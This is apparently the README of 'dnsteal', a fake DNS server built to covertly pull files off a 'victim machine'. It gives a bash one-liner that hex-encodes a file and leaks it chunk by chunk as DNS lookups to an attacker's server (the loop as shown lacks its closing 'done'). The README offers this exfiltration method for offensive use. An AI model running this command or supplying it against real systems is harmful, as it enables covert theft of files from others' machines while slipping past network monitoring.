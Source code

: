 # dnsteal

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests. Below is an image showing an example of how to use:

![Alt text](https://github.com/m57/dnsteal/blob/master/dns-exfil.PNG)

On the victim machine, you simply can do something like so:

```bash
for b in $(xxd -p file/to/send.png); do dig @server $b.fakedomain.com
```

~x90
